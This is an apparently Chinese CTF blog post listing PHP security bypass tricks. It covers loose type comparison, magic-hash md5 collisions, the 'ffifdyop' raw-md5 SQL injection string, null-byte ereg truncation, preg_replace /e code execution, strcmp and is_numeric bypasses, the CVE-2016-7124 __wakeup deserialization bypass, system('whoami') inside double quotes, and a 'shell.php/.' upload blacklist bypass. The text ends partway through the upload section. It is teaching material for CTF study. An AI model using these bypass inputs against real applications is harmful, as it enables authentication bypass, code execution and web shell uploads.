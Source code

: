 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型 ##

```php
<?php

//输出 boolean true

$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true

$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

科学记数法
--------

```php
<?php

//输出 boolean true

$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()

    ```php
    <?php
    //http://xxxx?a[]=1&b[]=2

    //md5对数组类型hash的时候会返回false

    //输出 boolean true

    $a = md5($_GET['a']);
    $b = md5($_GET['b']);
    var_dump($a == $b);

    //把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符

    //输出 'or'6�]��!r,��b

    echo md5('ffifdyop',true);

    ?>
    ```
- ereg()/eregi()截断

    ```php
    <?php

    //http://xxxx?a=abc;

    //输出 boolean false

    //http://xxxx?a=abc%00;

    //输出 boolean true

    var_dump(eregi('^[a-z]+$',$_GET[a]));

    ?>
    ```

- preg_replace()代码执行<br>

    ```php
    <?php

    //pattern里使用参数e导致代码执行

    preg_replace('/test/e','phpinfo()','test');

    ?>
    ```

- 对parse_url()参数检测的绕过<br>

![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

`注：在path前面的"/"到达一定数量之后，parse_url会忽略参数`

- mt_srand()伪随机数
    用`php_mt_seed`即可算出种子<br>


- is_numeric()十六进制绕过

    ```php
    <?php

    var_dump(is_numeric('0xabcd'));
    //输出 boolean true

    ?>
    ```

- strcmp()绕过

    strcmp输入数组作为参数会返回`NULL`
    ```php
    <?php

    //http://xxxx?a[]=www

    $a=$_GET['a'];
    echo strcmp('aaaa',$a).'<br>';

    //输出 无（即NULL）

    if(strcmp('aaaa',$a)){
        echo 'false!';
    }else{
        echo 'success!';
    }
    //输出 success

    ?>
    ```

## 反序列化
- _wakeup()魔术方法的绕过

    利用的是`CVE-2016-7124`

    ```php
    <?php

    class test{

        public $s = 'secret';

        function __construct(){
            
        }

        function __wakeup(){
            echo 'wakeup'.'<br>';
            $this->s = '';
        }

        function __destruct(){
            echo 'destruct '.$this->s.'<br>';
            
        }
    }

    $a = new test();
    $serial = serialize($a).'<br>'; 

    //O:4:"test":1:{s:1:"s";s:6:"secret";}


    unserialize($serial);
    //输出：

    //wakeup

    //destruct 

    //可以看到反序列化先运行了__wakeup()函数

    //但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup

    //即 O:4:"test":2:{s:1:"s";s:6:"secret";}

    unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
    //输出： 

    //destruct secret

    //没有运行wakeup


    ?>

    ```

- 双引号里的代码执行

    ```php
    <?php

    $a = "${system('whoami')}";

    ?>
    ```

## 文件上传

- shell.php/.

    上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单<br>